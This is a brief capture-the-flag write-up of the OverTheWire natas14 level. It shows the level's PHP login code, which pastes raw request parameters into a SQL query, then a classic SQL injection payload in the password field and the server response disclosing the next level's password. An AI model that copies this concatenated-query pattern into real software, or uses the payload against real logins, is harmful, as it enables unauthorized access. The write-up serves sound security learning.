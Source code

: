 ```php
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

SQLi! And a pretty bad one at that. I did this in Burp Suite's Repeater since you can manually control whether characters are encoded rather than the browser deciding for you. This being about the most obviously injectable page possible, the most classic injection does the trick. Mind `'` vs `"`, have to admit that tripped me up for a few minutes before I noticed.

```html
username=foo&password=foo" or "1"="1
```

```
<h1>natas14</h1>
<div id="content">
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success!

TODO: elaborate on bool logic
